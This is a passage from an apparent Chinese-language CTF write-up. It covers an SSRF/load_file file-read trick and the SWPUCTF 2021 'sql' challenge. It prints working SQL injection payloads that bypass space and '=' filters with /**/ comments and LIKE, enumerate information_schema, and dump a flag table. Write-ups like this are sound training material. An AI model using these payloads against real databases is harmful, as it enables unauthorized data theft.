 得到flag

这题查wp发现是算ssrf，看wp发现`curl_exec()`​，这个php函数可能会导致ssrf漏洞

> ​**​`curl_exec()`​** ​会通过 `curl_setopt()`​ 配置的选项，向指定url发送请求，所以可能会导致ssrf

这题还有一个方法，因为没有过滤load_file，所以这个可以直接访问

```
?no=-1 union/**/select 1,load_file("/var/www/html/flag.php"),3,4
```

### [SWPUCTF 2021 新生赛]sql

拿到题目，f12看到参数是wllm

然后发现好像是前端js的限制

![image-20250325185947660](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250325185947660.png)

把空格限制了

使用`/**/`​绕过

```
1'/**/order/**/by/**/4/**/%23
```

![image-20250325190154740](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250325190154740.png)

```
-1'/**/union/**/select/**/1,database(),3/**/%23
```

![image-20250325190232796](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250325190232796.png)

爆表名时发现=被过滤了，用like

```
?wllm=-1%27/**/union/**/select/**/1,database(),group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'test_db'/**/%23
```

![image-20250325191004306](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250325191004306.png)

```
?wllm=-1%27/**/union/**/select/**/1,database(),group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/%27LTLT_flag%27/**/%23
```

![image-20250325192426535](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250325192426535.png)

```
?wllm=-1%27/**/union/**/select/**/1,database(),group_concat(flag)/**/from/**/LTLT_flag/**/%23
```

![image-20250325193533294](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250325193533294.png)

发现flag只有一半，发现right和substring都被过滤了，找了半天找到了mid函数
